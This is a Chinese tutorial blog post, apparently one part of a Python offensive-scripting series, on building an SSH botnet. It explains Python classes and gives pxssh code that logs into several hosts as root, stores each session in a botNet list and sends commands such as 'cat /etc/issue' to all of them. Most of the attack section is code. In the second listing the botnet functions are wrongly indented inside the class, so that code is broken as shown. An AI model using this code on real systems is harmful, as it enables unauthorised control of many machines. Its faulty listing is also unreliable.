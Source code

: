# 原创
：  【Python脚本进阶】2.2、组建一个SSH僵尸网络（终）

# 【Python脚本进阶】2.2、组建一个SSH僵尸网络（终）

**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[1.1、概述：](#%E6%A6%82%E8%BF%B0%EF%BC%9A)

[二、实现](#%E4%BA%8C%E3%80%81%E5%AE%9E%E7%8E%B0)

[2.1、函数：](#%E5%87%BD%E6%95%B0%EF%BC%9A)

[2.2、连接：](#%C2%A0%E8%BF%9E%E6%8E%A5%EF%BC%9A)

[2.3、组建僵尸网络](#%E7%BB%84%E5%BB%BA%E5%83%B5%E5%B0%B8%E7%BD%91%E7%BB%9C)

---


## 一、简介

> 
<h3>1.1、概述：</h3>
能通过SSH控制主机， 接下来就要同时控制多台主机
攻击者在达成恶意目的时， 通常会使用被黑掉的计算机群。我们称之为僵尸网络， 因为被黑掉的电脑会像僵尸一样执行指令。为构建僵尸网络， 我们必须引入一个新的概念一类。类的概念是面向编程对象和编程模型的基础。在这一编程模型中， 我们会把各个对象和它们所关联的方法一起实例化。在僵尸网络中， 每个单独的僵尸或client（客户端）都需要有能连上某台肉机，并把命令发送给肉机的能力


---


---


## 二、实现

> 
<h3>2.1、函数：</h3>
__init__ ：是初始化initialization的缩写，在使用类创建对象之后被执行，用于给新创建的对象初始化属性用，如初始化属性的语句就是 self.name=name
<hr/>
prompt是 javascript语言中的一个方法，主要用处是显示提示对话框


> 
<h3>2.2、连接：</h3>
实现每个单独的僵尸或client（客户端）都需要有能连上某台肉机，并把命令发送给肉机的能力
<pre><code>import optparse
import pxssh


class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before
</code></pre>



> 
<h3>2.3、组建僵尸网络</h3>
生成Client()类对象的代码。为了构造client 对象， 需要主机名、用户名，以及密码或密钥。同时， 这个类还要包含维持与肉机连接所需的方法 connect() 、send_ command(）和alive(）。当引用属于类中的变量时， 是以self 后接变量名的方式表示它的。
为了构建僵尸网络， 要建立一个名为botNet 的全局数组，其中记录了单个client 对象。编写一个名为addClient()的方法，它的输入是主机名、用户和密码，并以此实例化一个client 对象， 并把它添加到botNet 数组里。接下来的botnetComrnand()函数只要一个参数要发布的命令。这个函数遍历整个数组， 把命令发送到botNet 数组中的每个client 上

<pre><code>import optparse
import pxssh


class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before


    
    def botnetCommand(command):
        for client in botNet:
            output= client.send_command(command)
            print('[*] Output from ' + client.host)
            print('[+] ' + output + '\n')

    def addClient(host, user, password):
        client = Client( host, user, password )
        botNet.append(client)

    botNet = []
    addClient('10.10.10.110', 'root', 'toor')
    addClient('10.10.10.120', 'root', 'toor')
    addClient('10.10.10.130', 'root', 'toor')
    botnetCommand('uname -v')
    botnetCommand('cat /etc/issue')
</code></pre>

